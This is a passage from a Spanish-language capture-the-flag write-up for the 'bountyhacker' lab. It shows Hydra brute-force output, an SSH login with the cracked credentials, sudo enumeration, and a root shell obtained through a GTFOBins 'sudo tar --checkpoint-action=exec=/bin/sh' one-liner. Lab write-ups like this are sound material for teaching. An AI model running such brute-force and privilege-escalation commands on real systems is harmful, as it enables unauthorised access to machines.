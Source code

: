 ```bash
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-19 20:31:28
```

Ya tenemos las credenciales de acceso ssh y podemos visualizar la flag (user.txt):

```bash
❯ ssh lin@10.10.200.126
The authenticity of host '10.10.200.126 (10.10.200.126)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.200.126' (ECDSA) to the list of known hosts.
lin@10.10.200.126's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ whoami
lin
lin@bountyhacker:~/Desktop$
```

Ahora vamos a enumerar un poco el sistema para ver como podemos escalar privilegios:

```bash
lin@bountyhacker:/home$ id
uid=1001(lin) gid=1001(lin) groups=1001(lin)
lin@bountyhacker:/home$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:/home$
```

Podemos ejecutar el binario `/bin/tar` como el usuario **root**; por lo tanto ya sabemos que debemos ir a [GTFobins](https://gtfobins.github.io/):

```bash
lin@bountyhacker:/home$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).